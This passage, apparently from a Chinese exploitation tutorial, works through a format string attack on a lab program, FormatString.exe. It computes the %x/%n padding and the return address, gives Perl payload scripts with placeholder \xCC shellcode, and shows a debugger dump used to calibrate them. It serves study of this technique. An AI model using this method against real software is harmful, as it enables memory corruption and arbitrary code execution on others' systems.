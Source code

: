所以返回地址为`0x00401232`，返回地址所在的位置为`0018ff48+c=0018ff4c`，这里有一个问题，返回地址中包含`\x00`字节，没有办法放在字符串的中间位置。但是需要注意，之所以说写入的可控地址是参数的前四个字节，是因为我们使用的格式化字符串中，`%n`是第四个格式化字符串，我们可以通过调整`%n`的位置，让它指向参数的其他位置。

### 2.2.2 确定参数格式

在调用 prinf 函数时，栈中的结构：

 

`4字节printf函数参数 12字节strncpy函数参数 (%818596x %818596x a个%x %n 168字节shellcode \x4c\xff\x18\x00)`

 

其中括号中的内容就是我们需要传入的参数，`%818596x`这里的`818596`是为了控制已打印字符数，根据调试结果还要再次修改，同时这里假定 shellcode 的长度是 168 个字节，最后四个字节是返回地址我们要让`%n`指向这里。所以`%x`应该正好可以覆盖前面的这些字节，即`Num of %x = a+2 = (12+16+2a+2+168)/4`，最后得到`a`等于`95`，所以`%x`的个数为`97`。

 

得到 perl 脚本：

```
#!/usr/bin/perl
my $shellcode ="\xCC" x 168;
my $x = "%x" x 95;
my $format = '%818596x%818596x%n';
my $ret = "\x00\x00\x40\x00";
my $buf = $shellcode.$x.$format.$ret;
 
system('FormatString.exe', $buf);

```

为了得到准确的已打印字符数，这里的返回地址暂时设置为`0x400000`，这样程序会在这里异常中断：

```
(644.424): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=0000006e ecx=0018fedf edx=00000200 esi=0018fcc0 edi=00000800
eip=00401877 esp=0018f8b8 ebp=0018fb10 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
FormatString+0x1877:
00401877 8908            mov     dword ptr [eax],ecx  ds:002b:00000000=????????

```

注意这时的`ECX`的值为`0018fedf`，与我们预期的`0x18fb48`相差了`0x397`，这样重新设置`format`变量为 `%818137x%818136x%n`，再把`ret`变量修改为正确的值，得到脚本：

```
#!/usr/bin/perl
my $shellcode ="\xCC" x 168;
my $x = "%x" x 95;
my $format = '%818137x%818136x%n';
my $ret = "\x4c\xff\x18\x00";
my $buf = $shellcode.$x.$format.$ret;
my $buf2 = "\x{910c}";
 
system('FormatString.exe', $buf);

```
